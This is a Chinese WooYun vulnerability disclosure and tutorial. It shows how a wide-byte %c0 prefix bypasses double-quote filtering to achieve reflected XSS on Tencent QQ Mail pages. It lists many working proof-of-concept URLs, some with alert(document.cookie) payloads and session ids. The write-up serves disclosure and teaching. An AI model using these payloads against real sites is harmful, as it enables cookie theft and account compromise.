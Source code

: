 # 4\. 宽字节复仇记 [QQ 邮箱基本通用]

> 来源：[4\. 宽字节复仇记 [QQ 邮箱基本通用]](http://www.wooyun.org/bugs/wooyun-2010-015969)

## 简要描述

前面教程第 2 节，说到了输出在`<script>..</script>`之间的情况。也说到了后面会再继续一些有意思的例子。

实际上，我们碰到的往往不是那么好。很多情况下，程序员都是会过滤的。

那么我们怎么办呢？ “因地制宜，因材施教。” 根据漏洞的实际情况，我们可以各种绕过。 不知道这里乱用成语没啊。 惶恐不安中。

这里先看看第一种方法，宽字节绕过。

## 详细说明

1\. 有一个比较经典的 SQL 注入，是宽字节注入。玩渗透的可能对这个都比较清楚。

2\. 有时候，宽字节确实可以带来奇效～～下面我们看腾讯的一个例子。

3\. 例子如下：

```
http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa 
```

我们尝试注入 " 来闭合前面的双引号，但是很悲剧的是，双引号被过滤了。。 如下图：

![image](img/Image_014.jpg)

看到这种情况，一般人估计会放弃了吧，至少说明程序员注意到了这里，并且过滤了。

然后我们可以看到编码是：

```
<meta http-equiv="Content-Type" content="text/html; charset=gb18030" /> 
```

gbxxxx 系列的编码，那么我们尝试一下宽字节呢？

```
http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa 
```

看看效果：

![image](img/Image_015.jpg)

弹个窗：

![image](img/Image_016.jpg)

至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写得有问题造成的。并不是因为`%22` 变 成了 `%5c%22`,而 `%c0` 吃掉了后面的`%5c`。 而后面这种情况，在腾讯的相关站点暂时没有发现实际案例。 如果有，欢迎大家分享。

## 漏洞证明

不一一列举了。有这个参数的基本都有问题。

```
http://msgopt.mail.qq.com/cgi-bin/readtemplate?sid=ktqO7DjMQcJuAABQ&folderid=9&pagehttp://msgopt.mail.qq.com/cgi-bin/readtemplate?sid=ktqO7DjMQcJuAABQ&folderid=9&page=0&t=aaaa%c0%22;alert(1);//bbbbx&loc=folderlist,,,9

http://r.mail.qq.com/cgi-bin/reader_main?sid=ktqO7DjMQcJuAABQ&t=aaaa%c0"bbbbx&source=folderlist

https://exmail.qq.com/cgi-bin/bizmail?sid=N7fzoGwkeI8ydyRo,7&action=show_user&alias=zhaopin@ucanlove.com&t=%c0"ccccbbbbx&s=showaccount

https://exmail.qq.com/cgi-bin/loginpage?errtype=3&verify=true&clientuin=info&t=dm_loginpage&d=fartech.cn&s=&alias=&regalias=&delegate_url=&title=&url=%2Fcgi-bin%2Flogin%3F&org_fun=&aliastype=other&ss=&from=&autologin=n&param=&sp=&r=b63f6de34c24eeb8a3099ab4bbfc1b8d&ppp=&secpp=%c0%22onmousebbbb=alert(document.cookie);//&dmtype=bizmail

http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0"ccccbbbbx

http://open.mail.qq.com/cgi-bin/communication?sid=,2,zh_CN&t=%c0"ccccbbbbx&action=

http://open.mail.qq.com/cgi-bin/feedback_loop?sid=,2,zh_CN&check=false&t=%c0"ccccbbbbx&action=

http://exmail.qq.com/cgi-bin/viewdocument?sid=H6Mg9z5XNfqsfhdH,7&filename=%CC%EC%BD%F2%BB%C6%BD%F0%C8%D5%D6%DC%C6%C00917.doc&mailid=ZL2017-RfnEvncOeLfhJ04eTPrSU29&retry=true&t=%c0%22ccccbbbbx&ef=qfunc

http://reader.qq.com/cgi-bin/rss_main?sid=MTOtOYwpx56MMzN9&t=aaaa%c0%22;alert(document.cookie);//bbbbx&s=mag&r=222&init=true&update=1 
```

## 修复方案

修复相关过滤机制。
